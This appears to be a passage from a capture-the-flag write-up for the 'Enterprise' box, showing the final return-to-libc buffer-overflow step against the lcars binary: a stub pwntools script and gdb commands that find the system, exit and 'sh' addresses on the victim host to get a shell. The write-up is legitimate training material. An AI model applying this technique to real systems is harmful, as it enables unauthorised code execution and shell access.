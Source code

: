 ```python

    context(os="linux", arch="i386")
    r = remote(host,port)

if __name__ == "__main__":

    exploitBOF()
```

```bash
# Check connection
nvim lcars_bof.py
python3 lcars_bof.py
```

<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_099.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_100.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_101.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_102.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_103.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_104.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I can now use the **system**, **exit** and **sh** addresses to try to execute a malicious command and get a **Reverse Shell**, I try several times but I can't get the session to stay open, there is something I did wrong. After a long time thinking, <ins>I understand my mistake</ins>, I was always using the wrong addresses, the ones **I was using are the ones I found in my machine and not the one of the victim host!** Once I find the correct ones and modify the exploit, I get a stable console and I can see the last flag, pwned box!

> **Attacker Machine:**

```bash
nvim lcars_bof.py
python3 lcars_bof.py
#          :(      Not work ??
# system, exit, /bin/sh addresses I need to look for on the victime machine !!!
```

> **Victime Machine:**

```bash
which gdb
gdb /bin/lcars -q
    /> info functions
    /> b *main
    /> r
    /> p system
#        --> 0xf7e4c060 <system>
    /> p exit
#        --> 0xf7e3faf0 <exit>
    /> find &system,+9999999,"sh"
#        --> 0xf7f6ddd5
    /> x /s 0xf7f6ddd5
#        --> 0xf7f6ddd5: "sh"
```
